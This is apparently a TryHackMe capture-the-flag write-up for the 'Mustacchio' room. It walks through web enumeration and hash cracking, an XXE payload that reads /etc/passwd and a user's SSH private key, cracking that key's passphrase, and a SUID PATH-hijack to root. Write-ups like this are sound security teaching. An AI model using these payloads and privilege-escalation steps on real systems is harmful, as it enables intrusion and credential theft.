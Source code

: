 ```yaml
---
title: Mustacchio
description: 'XML external entity (XXE) injection and privilege escalation through a binary with a relative path'
pubDate: 2021-08-24
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/9150a15223eb72f053804a3975133e3d.png'
---
```


## ENUM
```bash
gobuster dir --url http://10.10.189.123 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -o gobust-root.txt -t 40
```

Found `/custom` which has an interesting file: `http://10.10.189.123/custom/js/users.bak`.

this is a SQLite 3.x database with creds:
```bash
strings users.bak
SQLite format 3
tableusersusers
CREATE TABLE users(username text NOT NULL, password text NOT NULL)
]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```

Probably a SHA-1 hash:

```bash
hashid 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1
...[snip]...
```

Cracking it with hashcat:
```bash
hashcat -m 100 hash /usr/share/wordlists/rockyou.txt --user
```

`admin:bulldog19`

With this we can login to `http://10.10.189.123:8765/`.
Once logged in we see a comment in the HTML
```html
...[snip]...
     //document.cookie = "Example=/auth/dontforget.bak";
...[snip]...
    <!-- Barry, you can now SSH in using your key!-->
...[snip]...
```

Based on the `dontforget.bak` XML we can craft a XXE to retrieve files:
```xml
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

URL-encoded payload to retrieve Barry's id_rsa key (`barry_id_rsa_enc):
```
xml=<!DOCTYPE+root+[<!ENTITY+xxe+SYSTEM+'file%3a///home/barry/.ssh/id_rsa'>]>
<comment>
++<name>Joe+Hamd</name>
++<author>Barry+Clad</author>
++<com>%26xxe%3b</com>
</comment>
```

## USER

Cracking the encrypred RSA key:

```bash
/usr/share/john/ssh2john.py barry_id_rsa_enc > id_rsa.hash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
...[snip]...
urieljames       (barry_id_rsa_enc)
...[snip]...
```

```bash
ssh -i barry_id_rsa_enc barry@10.10.189.123 # <- urieljames
```

OR generate an unencrypted key:
```bash
openssl rsa -in barry_id_rsa_enc -out barry_id_rsa
```

and login:

```bash
ssh -i barry_id_rsa barry@10.10.189.123
```

## ROOT

In `/home/joe` we find a binary `live_log`:
```bash
find / -perm /4000 2>/dev/null | grep -Ev 'usr/|bin/|/proc')
/home/joe/live_log
```

When looking at the strings we can find that `tail` is being used to read log files:

```bash
strings /home/joe/live_log
...[snip]...
tail -f /var/log/nginx/access.log
...[snip]...
```

Logs are accessible by the `adm` group and root so this seems interesting.

The path to `tail` is not absolute so we can take this over:

```bash
echo 'bash -p' > /home/barry/tail
chmod +x /home/barry/tail
export PATH=/home/barry:$PATH
```

Now executing `live_log` gives us a bash shell with the privileges of the user executing it in the binary.

```bash
barry@mustacchio:~$ /home/joe/live_log
root@mustacchio:~# cat /root/root.txt
```
